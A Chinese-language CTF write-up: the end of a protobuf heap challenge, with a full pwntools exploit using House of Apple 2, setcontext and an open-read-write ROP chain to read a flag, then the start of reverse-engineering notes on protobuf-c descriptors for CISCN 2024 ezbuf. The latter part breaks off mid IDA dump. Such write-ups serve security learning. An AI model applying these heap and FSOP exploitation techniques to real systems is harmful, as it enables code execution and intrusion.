
由于 0x40 大小的分配会从已释放的 chunk 中分裂出来，我们得先把它们全部消耗掉（只要确保没有一个大于 0x40），从 smallbin 中消耗它们。然后此时的分配就会从之前释放的 0x500 chunk 中分裂出来，这同样让我们能够溢出并修改 book_struct，从而写入 stderr，进而修改 stderr

4.  house of apple 2 + setcontext + orw 读取 flag。由于最终执行被篡改的 vtable 中的函数时，rdi 是 stderr，rdx 是 wide_data，我们把 wide_data+0xa0 构造为 wide_data 上 ROP 链部分的位置，wide_data+0xa8 构造为 ret

这里似乎 write_ptr 也需要非零


```c
.text:00000000000580DD                 mov     rsp, [rdx+0A0h]
.text:00000000000580E4                 mov     rbx, [rdx+80h]
.text:00000000000580EB                 mov     rbp, [rdx+78h]
.text:00000000000580EF                 mov     r12, [rdx+48h]
.text:00000000000580F3                 mov     r13, [rdx+50h]
.text:00000000000580F7                 mov     r14, [rdx+58h]
.text:00000000000580FB                 mov     r15, [rdx+60h]
.text:00000000000580FF                 test    dword ptr fs:48h, 2
    ....
.text:00000000000581C6                 mov     rcx, [rdx+0A8h]
.text:00000000000581CD                 push    rcx
.text:00000000000581CE                 mov     rsi, [rdx+70h]
.text:00000000000581D2                 mov     rdi, [rdx+68h]
.text:00000000000581D6                 mov     rcx, [rdx+98h]
.text:00000000000581DD                 mov     r8, [rdx+28h]
.text:00000000000581E1                 mov     r9, [rdx+30h]
.text:00000000000581E5                 mov     rdx, [rdx+88h]
.text:00000000000581EC                 xor     eax, eax
.text:00000000000581EE                 retn
```


## exp

```python
from pwn import *
import base64
import bookProto_pb2
context(arch="amd64",os="linux")
p=process("./pwn")
libc=ELF("./libc.so.6")
def prepare(title,author,isbn,publish_date,price,stock):
    book=bookProto_pb2.CTFBook()
    book.title=base64.b64encode(title)
    book.author=base64.b64encode(author)
    book.isbn=base64.b64encode(isbn)
    book.publish_date=base64.b64encode(publish_date)
    book.price=price
    book.stock=stock
    pack=book.SerializeToString()
    return pack

def buy(idx,title,author,isbn,publish_date,price,stock):
    p.sendlineafter(b"Enter your choice > ",b"1")
    p.sendlineafter(b"Index: ",str(idx))
    p.sendlineafter(b"Special Data: ", base64.b32encode(prepare(title,author,isbn,publish_date,price,stock)))
    

def see(idx):
    p.sendlineafter(b"Enter your choice > ",b"2")
    p.sendlineafter(b"Index: ",str(idx))

def dele(idx):
    p.sendlineafter(b"Enter your choice > ",b"3")
    p.sendlineafter(b"Index: ",str(idx))

def edit(idx,title,author,isbn,publish_date,price,stock):
    p.sendlineafter(b"Enter your choice > ",b"4")
    p.sendlineafter(b"Index: ",str(idx))
    p.sendlineafter(b"Special Data: ", base64.b32encode(prepare(title,author,isbn,publish_date,price,stock)))


buy(0,b"00000001",b"00000002",b"00000003",b"00000004",1.1,1)
buy(1,b'11111111',b'11111112',b'',b'11111114',1,1)
# 第1个book_struct 的第三个字段是fastbin中0x20大小最后一个chunk，此时泄漏fd，可以得到heap地址
see(1)
p.recvuntil(b'ISBN: ')
heap=u64(p.recv(5).ljust(8,b"\x00"))
heap=heap<<12
print("heap",hex(heap))

buy(2,b"2"*0x20,b"",b"",b"",1,1)
buy(3,b"3"*0x4f0,b"",b"",b"",1,1)
# largechunk会触发合并fastbin合并到unsortedbin,然后再到unsortedbin寻找的过程中分配到smallbin

buy(4,b"4"*0x200,b"",b"",b"",1,1)#防止free3和topchunk合并,由于此时0x20和0x40的堆在bin中已经有了，我们需要找个不来自bin的才行,并且也不能是被分割的
dele(3) 
edit(2,b"2"*0x70,b"",b"",b"",1,1)
see(2)
p.recvuntil(b'2'*0x70)
libc.address=u64(p.recv(6).ljust(8,b"\x00"))-0x21ace0
print("libc",hex(libc.address))   
edit(2,b"2"*0x20+p64(0)+p64(0x41)+b"3"*0x30+p64(0)+p64(0x501),b"",b"",b"",1,1) #恢复原来被覆盖的部分


buy(5,b"5"*0x50,b"5"*0x50,b"5"*0x50,b"5"*0xd0,1,1)
buy(6,b"5"*0x150,b"5"*0x150,b"5"*0x150,b"5"*0x160,1,1)
buy(7,b"5"*0x30,b"5"*0x10,b"5"*0x10,b"5"*0x10,1,1)

rdi=0x2a3e5+libc.address
rsi=libc.address+0x2be51
rdx_r12=libc.address+0x11f2e7
syscall=libc.address+0x1147e0
rax=libc.address+0x45eb0
ret=libc.address+0x29139
ret=libc.address+0x29139
wide_data_chunk=heap+0x1ed0
stderr=libc.address+0x21b6a0
_IO_wfile_jumps=libc.address+0x2170c0
vatabl=heap+0x1ed0+0xe8 
#+0x68

wide_data=b"\x00"
wide_data=wide_data.ljust(0x18,b"\x00")
wide_data+=p64(0)
wide_data=wide_data.ljust(0x30,b"\x00")
wide_data+=p64(0)
wide_data=wide_data.ljust(0xa0,b"\x00")
wide_data+=p64(wide_data_chunk+0x210)+p64(ret)

wide_data=wide_data.ljust(0xe0,b"\x00")
wide_data+=p64(vatabl)
wide_data=wide_data.ljust(0x150,b"\x00")
wide_data+=p64(libc.address+0x53a1d) #setcontext
wide_data=wide_data.ljust(0x200,b"\x00")

wide_data+=b'./flag\x00\x00'+p64(0)+p64(rdi)+p64(wide_data_chunk+0x200)+p64(rsi)+p64(0)+p64(rax)+p64(2)+p64(syscall)
wide_data+=p64(rdi)+p64(3)+p64(rsi)+p64(heap)+p64(rdx_r12)+p64(0x30)+p64(0)+p64(rax)+p64(0)+p64(syscall)
wide_data+=p64(rdi)+p64(1)+p64(rsi)+p64(heap)+p64(rdx_r12)+p64(0x30)+p64(0)+p64(rax)+p64(1)+p64(syscall)+p64(rdi)+p64(0)+p64(rax)+p64(0x3c)+p64(syscall)

wide_data=wide_data.ljust(0x500,b"\x00") #使得大小能分配一个不是从bin中来的


buy(8,wide_data,b"",b"",b"",1,1) #分裂largechunk


print("stderr",hex(stderr))
edit(2,b"2"*0x70+p64(stderr),b"",b"",b"",1,1) #写入stderr

fake_stderr=p64((~(0x2|0x8|0x800))&0xffffffffffffffff)+p64(0)+p64(0)*3+p64(1) #writeptr
fake_stderr=fake_stderr.ljust(0xa0,b"\x00")
fake_stderr+=p64(wide_data_chunk)
fake_stderr=fake_stderr.ljust(0xd8,b"\x00")
fake_stderr+=p64(_IO_wfile_jumps)
edit(8,fake_stderr,b"",b"",b"",1,1)


gdb.attach(p)
pause()
p.sendlineafter(b'Enter your choice > ',b'6')

p.interactive()

```



# 2024 CISCN ezbuf


## 参考资料
[https://www.y4ng.cn/posts/pwn/protobuf/#ciscn-2024-ezbuf](https://www.y4ng.cn/posts/pwn/protobuf/#ciscn-2024-ezbuf)

## protobuf
当时完全没看出来用的是 protobuf，提取工具也没提取出来。还是做题太少，很多关键结构都没认出是 protobuf。
下次可以搜索 ProtobufCMessageDescriptor 结构体的魔数（通常是 0x28AAEEF9），以此定位 ProtobufCMessageDescriptor。



## 逆向笔记

```c
const ProtobufCMessageDescriptor devicemsg__descriptor =
{
  PROTOBUF_C__MESSAGE_DESCRIPTOR_MAGIC,
  "devicemsg",
  "Devicemsg",
  "Devicemsg",
  "",
  sizeof(Devicemsg),
  5,
  devicemsg__field_descriptors,
  devicemsg__field_indices_by_name,
  1,  devicemsg__number_ranges,
  (ProtobufCMessageInit) devicemsg__init,
  NULL,NULL,NULL    /* reserved[123] */
};
```
相关字段

```c
/**
 * Describes a message.
 */
struct ProtobufCMessageDescriptor {
	/** Magic value checked to ensure that the API is used correctly. */
	uint32_t			magic;

	/** The qualified name (e.g., "namespace.Type"). */
	const char			*name;
	/** The unqualified name as given in the .proto file (e.g., "Type"). */
	const char			*short_name;
	/** Identifier used in generated C code. */
	const char			*c_name;
	/** The dot-separated namespace. */
	const char			*package_name;

	/**
	 * Size in bytes of the C structure representing an instance of this
	 * type of message.
	 */
	size_t				sizeof_message;

	/** Number of elements in `fields`. */
	unsigned			n_fields;
	/** Field descriptors, sorted by tag number. */
	const ProtobufCFieldDescriptor	*fields;
	/** Used for looking up fields by name. */
	const unsigned			*fields_sorted_by_name;

	/** Number of elements in `field_ranges`. */
	unsigned			n_field_ranges;
	/** Used for looking up fields by id. */
	const ProtobufCIntRange		*field_ranges;

	/** Message initialisation function. */
	ProtobufCMessageInit		message_init;

	/** Reserved for future use. */
	void				*reserved1;
	/** Reserved for future use. */
	void				*reserved2;
	/** Reserved for future use. */
	void				*reserved3;
};

```

在 IDA 中对应为：

```c
.data.rel.ro:000000000000BC60 unk_BC60        db 0F9h                 ; DATA XREF: sub_1AFE+5B↑o
.data.rel.ro:000000000000BC60                                         ; sub_1B66+17↑o ...
.data.rel.ro:000000000000BC61                 db 0EEh
.data.rel.ro:000000000000BC62                 db 0AAh
.data.rel.ro:000000000000BC63                 db  28h ; (
.data.rel.ro:000000000000BC64                 db    0
.data.rel.ro:000000000000BC65                 db    0
.data.rel.ro:000000000000BC66                 db    0
.data.rel.ro:000000000000BC67                 db    0
.data.rel.ro:000000000000BC68                 dq offset aHeybro       ; "heybro"
.data.rel.ro:000000000000BC70                 dq offset aHeybro_0     ; "Heybro"
.data.rel.ro:000000000000BC78                 dq offset aHeybro_0     ; "Heybro"
.data.rel.ro:000000000000BC80                 dq offset unk_910E
.data.rel.ro:000000000000BC88                 db  48h ; H
.data.rel.ro:000000000000BC89                 db    0
.data.rel.ro:000000000000BC8A                 db    0
.data.rel.ro:000000000000BC8B                 db    0
.data.rel.ro:000000000000BC8C                 db    0
.data.rel.ro:000000000000BC8D                 db    0
.data.rel.ro:000000000000BC8E                 db    0
.data.rel.ro:000000000000BC8F                 db    0
.data.rel.ro:000000000000BC90                 db    5
.data.rel.ro:000000000000BC91                 db    0
.data.rel.ro:000000000000BC92                 db    0
.data.rel.ro:000000000000BC93                 db    0
.data.rel.ro:000000000000BC94                 db    0
.data.rel.ro:000000000000BC95                 db    0
.data.rel.ro:000000000000BC96                 db    0
.data.rel.ro:000000000000BC97                 db    0
.data.rel.ro:000000000000BC98                 dq offset off_BAE0      ; "whatcon"
.data.rel.ro:000000000000BCA0                 dq offset unk_90D0
.data.rel.ro:000000000000BCA8                 db    1
.data.rel.ro:000000000000BCA9                 db    0
.data.rel.ro:000000000000BCAA                 db    0
.data.rel.ro:000000000000BCAB                 db    0
.data.rel.ro:000000000000BCAC                 db    0
.data.rel.ro:000000000000BCAD                 db    0
.data.rel.ro:000000000000BCAE                 db    0
.data.rel.ro:000000000000BCAF                 db    0
.data.rel.ro:000000000000BCB0                 dq offset unk_90F0
.data.rel.ro:000000000000BCB8                 dq offset sub_1AFE
```
然后顺着 ProtobufCFieldDescriptor，找到其中各字段的内容。

```c

static const ProtobufCFieldDescriptor devicemsg__field_descriptors[5] =
{
  {
    "whatcon",
    1,
    PROTOBUF_C_LABEL_NONE,
    PROTOBUF_C_TYPE_BYTES,
    0,   /* quantifier_offset */
    offsetof(Devicemsg, whatcon),
    NULL,
    NULL,
    0,             /* flags */
    0,NULL,NULL    /* reserved1,reserved2, etc */
  },
  {
    "whattodo",
    2,
    PROTOBUF_C_LABEL_NONE,
    PROTOBUF_C_TYPE_SINT64,
    0,   /* quantifier_offset */
    offsetof(Devicemsg, whattodo),
    NULL,
    NULL,
    0,             /* flags */
    0,NULL,NULL    /* reserved1,reserved2, etc */
  },
  {
    "whatidx",
    3,
    PROTOBUF_C_LABEL_NONE,
    PROTOBUF_C_TYPE_SINT64,
    0,   /* quantifier_offset */
    offsetof(Devicemsg, whatidx),
    NULL,
    NULL,
    0,             /* flags */
    0,NULL,NULL    /* reserved1,reserved2, etc */
  },
  {
    "whatsize",
    4,
    PROTOBUF_C_LABEL_NONE,
    PROTOBUF_C_TYPE_SINT64,
    0,   /* quantifier_offset */
    offsetof(Devicemsg, whatsize),
    NULL,
    NULL,
    0,             /* flags */
    0,NULL,NULL    /* reserved1,reserved2, etc */
  },
  {protobuf_c_message_pack
    "whatsthis",
    5,
    PROTOBUF_C_LABEL_NONE,
    PROTOBUF_C_TYPE_UINT32,
    0,   /* quantifier_offset */
    offsetof(Devicemsg, whatsthis),
    NULL,
    NULL,
    0,             /* flags */
    0,NULL,NULL    /* reserved1,reserved2, etc */
  },
};
```
相关字段的定义

```c
struct ProtobufCFieldDescriptor {
	/** Name of the field as given in the .proto file. */
	const char		*name;
	/** Tag value of the field as given in the .proto file. */
	uint32_t		id;
	/** Whether the field is `REQUIRED`, `OPTIONAL`, or `REPEATED`. */
	ProtobufCLabel		label;
	/** The type of the field. */
	ProtobufCType		type;
	/**
	 * The offset in bytes of the message's C structure's quantifier field
	 * (the `has_MEMBER` field for optional members or the `n_MEMBER` field
	 * for repeated members or the case enum for oneofs).
	 */
	unsigned		quantifier_offset;
	/**
	 * The offset in bytes into the message's C structure for the member
	 * itself.
	 */
	unsigned		offset;
	/**
	 * A type-specific descriptor.
	 *
	 * If `type` is `PROTOBUF_C_TYPE_ENUM`, then `descriptor` points to the
	 * corresponding `ProtobufCEnumDescriptor`.
	 *
	 * If `type` is `PROTOBUF_C_TYPE_MESSAGE`, then `descriptor` points to
	 * the corresponding `ProtobufCMessageDescriptor`.
	 *
	 * Otherwise this field is NULL.
	 */
	const void		*descriptor; /* for MESSAGE and ENUM types */
	/** The default value for this field, if defined. May be NULL. */
	const void		*default_value;
	/**
	 * A flag word. Zero or more of the bits defined in the
	 * `ProtobufCFieldFlag` enum may be set.
	 */
	uint32_t		flags;
	/** Reserved for future use. */
	unsigned		reserved_flags;
	/** Reserved for future use. */
	void			*reserved2;
	/** Reserved for future use. */
	void			*reserved3;
};

```
根据这四个字段还原原始结构： `const char		*name;
uint32_t		id;
ProtobufCLabel		label;
ProtobufCType		type;`


```c
typedef enum {
	/** A well-formed message must have exactly one of this field. */
	0 PROTOBUF_C_LABEL_REQUIRED,
	/**
	 * A well-formed message can have zero or one of this field (but not
	 * more than one).
	 */
	1 PROTOBUF_C_LABEL_OPTIONAL,
	/**
	 * This field can be repeated any number of times (including zero) in a
	 * well-formed message. The order of the repeated values will be
	 * preserved.
	 */
	2 PROTOBUF_C_LABEL_REPEATED,
	/**
	 * This field has no label. This is valid only in proto3 and is
	 * equivalent to OPTIONAL but no "has" quantifier will be consulted.
	 */
	3 PROTOBUF_C_LABEL_NONE,
} ProtobufCLabel;

typedef enum {
0	PROTOBUF_C_TYPE_INT32,      /**< int32 */
1	PROTOBUF_C_TYPE_SINT32,     /**< signed int32 */
2	PROTOBUF_C_TYPE_SFIXED32,   /**< signed int32 (4 bytes) */
3	PROTOBUF_C_TYPE_INT64,      /**< int64 */
4	PROTOBUF_C_TYPE_SINT64,     /**< signed int64 */
5	PROTOBUF_C_TYPE_SFIXED64,   /**< signed int64 (8 bytes) */
6	PROTOBUF_C_TYPE_UINT32,     /**< unsigned int32 */
7	PROTOBUF_C_TYPE_FIXED32,    /**< unsigned int32 (4 bytes) */
8	PROTOBUF_C_TYPE_UINT64,     /**< unsigned int64 */
9	PROTOBUF_C_TYPE_FIXED64,    /**< unsigned int64 (8 bytes) */
10	PROTOBUF_C_TYPE_FLOAT,      /**< float */
11	PROTOBUF_C_TYPE_DOUBLE,     /**< double */
12	PROTOBUF_C_TYPE_BOOL,       /**< boolean */
13	PROTOBUF_C_TYPE_ENUM,       /**< enumerated type */
14	PROTOBUF_C_TYPE_STRING,     /**< UTF-8 or ASCII string */
15	PROTOBUF_C_TYPE_BYTES,      /**< arbitrary byte sequence */
16	PROTOBUF_C_TYPE_MESSAGE,    /**< nested message */
} ProtobufCType;

```

对应到 IDA 中：

```c
.data.rel.ro:000000000000BAE0 off_BAE0        dq offset aWhatcon      ; DATA XREF: .data.rel.ro:000000000000BC98↓o
.data.rel.ro:000000000000BAE0                                         ; "whatcon"
.data.rel.ro:000000000000BAE8                 db    1
.data.rel.ro:000000000000BAE9                 db    0
.data.rel.ro:000000000000BAEA                 db    0
.data.rel.ro:000000000000BAEB                 db    0
.data.rel.ro:000000000000BAEC                 db    3
.data.rel.ro:000000000000BAED                 db    0
.data.rel.ro:000000000000BAEE                 db    0
.data.rel.ro:000000000000BAEF                 db    0
.data.rel.ro:000000000000BAF0                 db  0Fh
.data.rel.ro:000000000000BAF1                 db    0
.data.rel.ro:000000000000BAF2                 db    0
.data.rel.ro:000000000000BAF3                 db    0
.data.rel.ro:000000000000BAF4                 db    0
.data.rel.ro:000000000000BAF5                 db    0
.data.rel.ro:000000000000BAF6                 db    0
.data.rel.ro:000000000000BAF7                 db    0
.data.rel.ro:000000000000BAF8                 db  18h
.data.rel.ro:000000000000BAF9                 db    0
.data.rel.ro:000000000000BAFA                 db    0
.data.rel.ro:000000000000BAFB                 db    0
.data.rel.ro:000000000000BAFC                 db    0
.data.rel.ro:000000000000BAFD                 db    0
.data.rel.ro:000000000000BAFE                 db    0
.data.rel.ro:000000000000BAFF                 db    0
.data.rel.ro:000000000000BB00                 db    0
.data.rel.ro:000000000000BB01                 db    0
.data.rel.ro:000000000000BB02                 db    0
.data.rel.ro:000000000000BB03                 db    0
.data.rel.ro:000000000000BB04                 db    0
.data.rel.ro:000000000000BB05                 db    0
.data.rel.ro:000000000000BB06                 db    0
.data.rel.ro:000000000000BB07                 db    0
.data.rel.ro:000000000000BB08                 db    0
.data.rel.ro:000000000000BB09                 db    0
.data.rel.ro:000000000000BB0A                 db    0
.data.rel.ro:000000000000BB0B                 db    0
.data.rel.ro:000000000000BB0C                 db    0
.data.rel.ro:000000000000BB0D                 db    0
.data.rel.ro:000000000000BB0E                 db    0
.data.rel.ro:000000000000BB0F                 db    0
.data.rel.ro:000000000000BB10                 db    0
.data.rel.ro:000000000000BB11                 db    0
.data.rel.ro:000000000000BB12                 db    0
.data.rel.ro:000000000000BB13                 db    0
.data.rel.ro:000000000000BB14                 db    0
.data.rel.ro:000000000000BB15                 db    0
.data.rel.ro:000000000000BB16                 db    0
.data.rel.ro:000000000000BB17                 db    0
.data.rel.ro:000000000000BB18                 db    0
.data.rel.ro:000000000000BB19                 db    0
.data.rel.ro:000000000000BB1A                 db    0
.data.rel.ro:000000000000BB1B                 db    0
.data.rel.ro:000000000000BB1C                 db    0
.data.rel.ro:000000000000BB1D                 db    0
.data.rel.ro:000000000000BB1E                 db    0
.data.rel.ro:000000000000BB1F                 db    0
.data.rel.ro:000000000000BB20                 db    0
.data.rel.ro:000000000000BB21                 db    0
.data.rel.ro:000000000000BB22                 db    0
.data.rel.ro:000000000000BB23                 db    0
.data.rel.ro:000000000000BB24                 db    0
.data.rel.ro:000000000000BB25                 db    0
.data.rel.ro:000000000000BB26                 db    0
.data.rel.ro:000000000000BB27                 db    0
.data.rel.ro:000000000000BB28                 dq offset aWhattodo     ; "whattodo"
.data.rel.ro:000000000000BB30                 db    2
.data.rel.ro:000000000000BB31                 db    0
.data.rel.ro:000000000000BB32                 db    0
.data.rel.ro:000000000000BB33                 db    0
.data.rel.ro:000000000000BB34                 db    3
.data.rel.ro:000000000000BB35                 db    0
.data.rel.ro:000000000000BB36                 db    0
.data.rel.ro:000000000000BB37                 db    0
.data.rel.ro:000000000000BB38                 db    4
.data.rel.ro:000000000000BB39                 db    0
.data.rel.ro:000000000000BB3A                 db    0
.data.rel.ro:000000000000BB3B                 db    0
.data.rel.ro:000000000000BB3C                 db    0
.data.rel.ro:000000000000BB3D                 db    0
.data.rel.ro:000000000000BB3E                 db    0
.data.rel.ro:000000000000BB3F                 db    0
.data.rel.ro:000000000000BB40                 db  28h ; (
.data.rel.ro:000000000000BB41                 db    0
.data.rel.ro:000000000000BB42                 db    0
.data.rel.ro:000000000000BB43                 db    0
.data.rel.ro:000000000000BB44                 db    0
.data.rel.ro:000000000000BB45                 db    0
.data.rel.ro:000000000000BB46                 db    0
.data.rel.ro:000000000000BB47                 db    0
.data.rel.ro:000000000000BB48                 db    0
.data.rel.ro:000000000000BB49                 db    0
.data.rel.ro:000000000000BB4A                 db    0
.data.rel.ro:000000000000BB4B                 db    0
.data.rel.ro:000000000000BB4C                 db    0
.data.rel.ro:000000000000BB4D                 db    0
.data.rel.ro:000000000000BB4E                 db    0
.data.rel.ro:000000000000BB4F                 db    0
.data.rel.ro:000000000000BB50                 db    0
.data.rel.ro:000000000000BB51                 db    0
.data.rel.ro:000000000000BB52                 db    0
.data.rel.ro:000000000000BB53                 db    0
.data.rel.ro:000000000000BB54                 db    0
.data.rel.ro:000000000000BB55                 db    0
.data.rel.ro:000000000000BB56                 db    0
.data.rel.ro:000000000000BB57                 db    0
.data.rel.ro:000000000000BB58                 db    0
.data.rel.ro:000000000000BB59                 db    0
.data.rel.ro:000000000000BB5A                 db    0
.data.rel.ro:000000000000BB5B                 db    0
.data.rel.ro:000000000000BB5C                 db    0
.data.rel.ro:000000000000BB5D                 db    0
.data.rel.ro:000000000000BB5E                 db    0
.data.rel.ro:000000000000BB5F                 db    0
.data.rel.ro:000000000000BB60                 db    0
.data.rel.ro:000000000000BB61                 db    0
.data.rel.ro:000000000000BB62                 db    0
.data.rel.ro:000000000000BB63                 db    0
.data.rel.ro:000000000000BB64                 db    0
.data.rel.ro:000000000000BB65                 db    0
.data.rel.ro:000000000000BB66                 db    0
.data.rel.ro:000000000000BB67                 db    0
.data.rel.ro:000000000000BB68                 db    0
.data.rel.ro:000000000000BB69                 db    0
.data.rel.ro:000000000000BB6A                 db    0
.data.rel.ro:000000000000BB6B                 db    0
.data.rel.ro:000000000000BB6C                 db    0
.data.rel.ro:000000000000BB6D                 db    0
.data.rel.ro:000000000000BB6E                 db    0
.data.rel.ro:000000000000BB6F                 db    0
.data.rel.ro:000000000000BB70                 dq offset aWhatidx      ; "whatidx"
.data.rel.ro:000000000000BB78                 db    3
.data.rel.ro:000000000000BB79                 db    0
.data.rel.ro:000000000000BB7A                 db    0
.data.rel.ro:000000000000BB7B                 db    0
.data.rel.ro:000000000000BB7C                 db    3
.data.rel.ro:000000000000BB7D                 db    0
.data.rel.ro:000000000000BB7E                 db    0
.data.rel.ro:000000000000BB7F                 db    0
.data.rel.ro:000000000000BB80                 db    4
.data.rel.ro:000000000000BB81                 db    0
.data.rel.ro:000000000000BB82                 db    0
.data.rel.ro:000000000000BB83                 db    0
.data.rel.ro:000000000000BB84                 db    0
.data.rel.ro:000000000000BB85                 db    0
.data.rel.ro:000000000000BB86                 db    0
.data.rel.ro:000000000000BB87                 db    0
.data.rel.ro:000000000000BB88                 db  30h ; 0
.data.rel.ro:000000000000BB89                 db    0
.data.rel.ro:000000000000BB8A                 db    0
.data.rel.ro:000000000000BB8B                 db    0
.data.rel.ro:000000000000BB8C                 db    0
.data.rel.ro:000000000000BB8D                 db    0
.data.rel.ro:000000000000BB8E                 db    0
.data.rel.ro:000000000000BB8F                 db    0
.data.rel.ro:000000000000BB90                 db    0
.data.rel.ro:000000000000BB91                 db    0
.data.rel.ro:000000000000BB92                 db    0
.data.rel.ro:000000000000BB93                 db    0
.data.rel.ro:000000000000BB94                 db    0
.data.rel.ro:000000000000BB95                 db    0
.data.rel.ro:000000000000BB96                 db    0
.data.rel.ro:000000000000BB97                 db    0
.data.rel.ro:000000000000BB98                 db    0
.data.rel.ro:000000000000BB99                 db    0
.data.rel.ro:000000000000BB9A                 db    0
.data.rel.ro:000000000000BB9B                 db    0
.data.rel.ro:000000000000BB9C                 db    0
.data.rel.ro:000000000000BB9D                 db    0
.data.rel.ro:000000000000BB9E                 db    0
.data.rel.ro:000000000000BB9F                 db    0
.data.rel.ro:000000000000BBA0                 db    0
.data.rel.ro:000000000000BBA1                 db    0
.data.rel.ro:000000000000BBA2                 db    0
.data.rel.ro:000000000000BBA3                 db    0
.data.rel.ro:000000000000BBA4                 db    0
.data.rel.ro:000000000000BBA5                 db    0
.data.rel.ro:000000000000BBA6                 db    0
.data.rel.ro:000000000000BBA7                 db    0
.data.rel.ro:000000000000BBA8                 db    0
.data.rel.ro:000000000000BBA9                 db    0
